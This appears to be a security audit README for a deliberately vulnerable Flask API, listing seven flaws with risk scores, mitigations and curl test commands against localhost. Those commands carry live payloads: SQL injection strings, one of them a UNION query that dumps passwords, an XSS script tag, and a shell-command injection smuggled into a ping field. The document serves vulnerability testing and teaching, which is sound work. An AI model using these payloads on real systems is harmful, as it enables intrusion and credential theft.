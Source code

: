 ### Security and Logical Vulnerabilities 
## Target is Python Flask backend api running from backend folder

1. **SQL Injection**
   - **Description**: SQL queries are constructed using string concatenation, making the application vulnerable to SQL injection.
   - **Risk**: High
   - **Impact**: An attacker can manipulate the SQL query to gain unauthorized access to the database, retrieve sensitive information, or perform data modification.
   - **Recommendation**: Use parameterized queries or prepared statements.

2. **Plaintext Password Storage**
   - **Description**: Passwords are stored in plaintext in the database.
   - **Risk**: High
   - **Impact**: In case of a database breach, attackers can easily retrieve users' passwords.
   - **Recommendation**: Use a strong hashing algorithm (e.g., bcrypt) to store passwords securely.

3. **Hardcoded Secret Key for JWT**
   - **Description**: The secret key used for JWT token generation is hardcoded in the source code.
   - **Risk**: High
   - **Impact**: If the source code is exposed, attackers can forge tokens.
   - **Recommendation**: Use environment variables to store the secret key securely.

4. **JWT Verification Disabled**
   - **Description**: The `decodeNoneJwt` function decodes JWT tokens without verifying the signature.
   - **Risk**: High
   - **Impact**: Attackers can create their own tokens and bypass authentication.
   - **Recommendation**: Always verify JWT signatures during decoding.

5. **Insufficient Input Validation**
   - **Description**: User inputs are not validated for format, length, or content.
   - **Risk**: Medium
   - **Impact**: This can lead to various attacks like XSS, SQL Injection, and data integrity issues.
   - **Recommendation**: Implement proper input validation and sanitization for all user inputs.

6. **Insecure Use of Ping Command**
   - **Description**: The application executes the `ping` command using user-provided input.
   - **Risk**: High
   - **Impact**: This can be exploited to execute arbitrary commands on the server (Command Injection).
   - **Recommendation**: Validate and sanitize user inputs before using them in system commands.

7. **Weak Error Messages**
   - **Description**: Error messages like `'In correct email or password'` can provide clues to attackers about valid emails or usernames.
   - **Risk**: Low
   - **Impact**: Can assist attackers in brute force or enumeration attacks.
   - **Recommendation**: Use generic error messages like "Invalid credentials" without specifying which part is incorrect.

### Bug Reporting with Risk Scoring

1. **SQL Injection**
   - **Type**: Security
   - **Description**: SQL queries are constructed using string concatenation, making the application vulnerable to SQL injection.
   - **Risk Score**: 9/10
   - **Impact**: Potential data breach, unauthorized access, and data manipulation.
   - **Mitigation**: Use parameterized queries or prepared statements.

2. **Plaintext Password Storage**
   - **Type**: Security
   - **Description**: Passwords are stored in plaintext in the database.
   - **Risk Score**: 10/10
   - **Impact**: High risk of user data compromise in the event of a database breach.
   - **Mitigation**: Store passwords using a strong hashing algorithm (e.g., bcrypt).

3. **Hardcoded Secret Key for JWT**
   - **Type**: Security
   - **Description**: The secret key used for JWT token generation is hardcoded in the source code.
   - **Risk Score**: 10/10
   - **Impact**: If the source code is exposed, attackers can forge tokens.
   - **Mitigation**: Use environment variables to store the secret key securely.

4. **JWT Verification Disabled**
   - **Type**: Security
   - **Description**: The `decodeNoneJwt` function decodes JWT tokens without verifying the signature.
   - **Risk Score**: 10/10
   - **Impact**: Attackers can create their own tokens and bypass authentication.
   - **Mitigation**: Always verify JWT signatures during decoding.

5. **Insufficient Input Validation**
   - **Type**: Security/Logical
   - **Description**: User inputs are not validated for format, length, or content.
   - **Risk Score**: 7/10
   - **Impact**: Potential for XSS, SQL injection, and data integrity issues.
   - **Mitigation**: Implement proper input validation and sanitization.

6. **Insecure Use of Ping Command**
   - **Type**: Security
   - **Description**: The application executes the `ping` command using user-provided input.
   - **Risk Score**: 9/10
   - **Impact**: Potential for command injection attacks.
   - **Mitigation**: Validate and sanitize user inputs before using them in system commands.

7. **Weak Error Messages**
   - **Type**: Security
   - **Description**: Detailed error messages can help attackers in brute force or enumeration attacks.
   - **Risk Score**: 5/10
   - **Impact**: Aids attackers in identifying valid usernames or emails.
   - **Mitigation**: Use generic error messages like "Invalid credentials".

### Curl REST Calls for Testing Vulnerabilities

1. **SQL Injection Testing**
   ```bash
   curl -X POST http://localhost:5500/client_registeration -d 'fullName=John Doe&userName=johndoe&email=test@maildrop.cc" OR "1"="1&password=password&phone=1234567890'

   curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com"OR 1=1;--&password=pwd'

   jwt() { jq -R 'split(".") | .[1] | @base64d | fromjson' <<< $1; }

   token=$(curl -X POST http://localhost:5000/client_login -d 'userName=spammer&email=spam@email.com" union select password || ":" || email from users;--&password=pwd' | jq -j '.token')
   jwt $token
   ```

2. **Testing Plaintext Password Storage**
   - Validating/Checking the database data to ensure passwords are stored securely.

3. **Testing Hardcoded Secret Key for JWT**
   - Code Reviewing the source code for hardcoded secrets and ensure they are replaced with environment variables.

4. **Testing JWT Verification Disabled**
   ```bash
   token=$(curl -X POST http://localhost:5500/client_login -d 'userName=notestuser&email=test@example.com&password=test' | jq -r '.token')
   curl -X POST http://localhost:5000/update_info -d "token=$token&currentPassword=test&newPassword=newpass"
   ```

5. **Testing Insufficient Input Validation**
   ```bash
   curl -X POST http://localhost:5500/client_registeration -d 'fullName=<script>alert("XSS")</script>&userName=testuser&email=test@example.com&password=test&phone=1234567890'
   ```

6. **Testing Insecure Use of Ping Command**
   ```bash
   curl -X GET http://localhost:5500/products -d 'source=google.com;ls'
   ```

7. **Testing Weak Error Messages**
   ```bash
   curl -X POST http://localhost:5500/client_login -d 'email=nonexistent@example.com&password=wrongpassword'
   ```